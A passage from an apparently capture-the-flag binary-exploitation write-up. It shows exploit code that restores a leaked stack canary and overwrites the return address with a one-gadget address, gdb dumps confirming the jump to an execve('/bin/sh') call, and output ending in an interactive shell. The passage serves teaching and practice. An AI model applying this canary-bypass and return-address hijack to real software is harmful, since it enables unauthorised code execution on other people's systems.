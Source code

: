 ```python
# We'll get back our stack buffer => restore stack state and call one gadget
alloc("kek\x00", "no\x00", p64(0)*3 + p64(canary) + p64(0) + p64(one_shot))
	
# give up and pop a shell
gup('yes\x00')
```

```
After:

0x7fffffffe480:	0x0000000a006b656b	0x0000000000000021
0x7fffffffe490:	0x0000000000000000	0x0000000000000000
0x7fffffffe4a0:	0x0000000000000000	0x4acaa6515dd0f000
0x7fffffffe4b0:	0x0000000000000000	0x00007ffff7afe117 <-- return address
gdb-peda$ x/5i 0x00007ffff7afe117
   0x7ffff7afe117 <exec_comm+2263>:	mov    rax,QWORD PTR [rip+0x2d2d9a]        # 0x7ffff7dd0eb8
   0x7ffff7afe11e <exec_comm+2270>:	lea    rsi,[rsp+0x70]
   0x7ffff7afe123 <exec_comm+2275>:	lea    rdi,[rip+0x9bbed]        # 0x7ffff7b99d17
   0x7ffff7afe12a <exec_comm+2282>:	mov    rdx,QWORD PTR [rax]
   0x7ffff7afe12d <exec_comm+2285>:	call   0x7ffff7ad9770 <execve>
gdb-peda$ x/s 0x7ffff7b99d17
0x7ffff7b99d17:	"/bin/sh"
```

Booyah! The return address was successfully overwritten! Now if we finally give up, we'll be greeted with a beautiful shell.

```
[+] Buffer: 0x7fffffffe480
[+] Canary: 0x28d54ddd45883100
[+] Libc:   0x7ffff7a0d000
[*] Switching to interactive mode
Quitter!
$ whoami
ubuntu
```
